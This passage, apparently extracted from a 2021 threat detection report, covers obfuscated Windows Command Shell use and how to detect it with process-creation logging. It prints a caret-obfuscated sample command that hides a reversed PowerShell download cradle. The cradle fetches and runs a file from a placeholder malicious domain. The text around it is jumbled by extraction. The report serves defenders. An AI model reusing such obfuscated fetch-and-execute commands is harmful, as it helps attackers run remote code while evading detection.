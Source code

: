 creating obfuscated DOS command lines that could be used to evade simple, 
signature\-based detections and slow down human analysis. In our data set of 
more than 1,000 detections involving the Windows Command Shell, we found 91 
unique command lines involving some measure of obfuscation. The most heavily 
obfuscated DOS command we observed was similar to the one shown here:
2021 Threat Detection Report
l T1059\.003: Windows Command Shell
18
In the Windows Command Shell, the caret (^) character is an escape character. 
When it precedes special characters, like the pipe (\|) character or file redirection 
operators (\<\>), those special characters will be treated as normal characters. 
When the caret symbol precedes non\-special characters, nothing special 
happens; it is effectively ignored. So the command above becomes:
Looking at this command carefully, we can see it sets a variable named N1 to 
a string containing a PowerShell command that is reversed. Theres a For loop 
that reverses this string and executes it. The PowerShell command creates a 
download cradle to download a file and invokes it via a call to Invoke\-Item.
While these obfuscated commands may evade simple, signature\-based 
detections, analytics that look for commonly used obfuscation techniques, such 
as the presence of caret characters, can easily detect them. Layered detection 
analytics will also help. If a detection misses the obfuscated DOS commands, 
another detection may trigger on the PowerShell download cradle, the call to 
Invoke\-Item, or a DNS lookup to an unusual domain.
Detection 
Collection requirements
Process and command\-line monitoringWindows Security Event Logsspecifically Process Creation (ID 4688\) events 
with command\-line argument logging enabledwill be the best source of 
observing and detecting malicious usage of the Windows Command Shell. 
Having a good understanding of baseline scripts and processes that call the 
Windows Command Shell is essential to reducing noise and combating potential 
false positive alerts.
2021 Threat Detection Report
cmd VCset N1\=}
}{hctac};kaerb;iB$ metI\-
ekovnI;
)iB$ ,dq$(eliFdaolnwoD.cAB${yrt{)tlm$ ni 
dq$(hcaerof;exe.
\+Kjm$\+
\+cilbup:vne$\=iB$;963 
\= Kjm$;
)@
(tilpS.detcefni\=l?php.suoicilam
niamod.live

:ptth\=tlm$;tneilCbeW.teN tcejbo\-
wen\=cAB$ llehsrewop\&\&for L %R in (265;\-1;0\)do 
set ZR\=!ZR!
!N1:\~%R,1!\&\&if %R\=\=0 call %ZR:\*ZR!\=%
T 1 0 5 9 . 0 0 3 :
WINDOWSCOMMAN DS HELL
Adversaries may abuse the Windows 
command shell for execution. The 
Windows command shell (cmd.exe) 
is the primary command prompt 
on Windows systems. The Windows 
command prompt can be used to 
control almost any aspect of a system, 
with various permission levels required 
for different subsets of commands.
l T1059\.003: Windows Command Shell
19
Detection requirements
Focus on the uncommon patterns of execution and patterns of execution 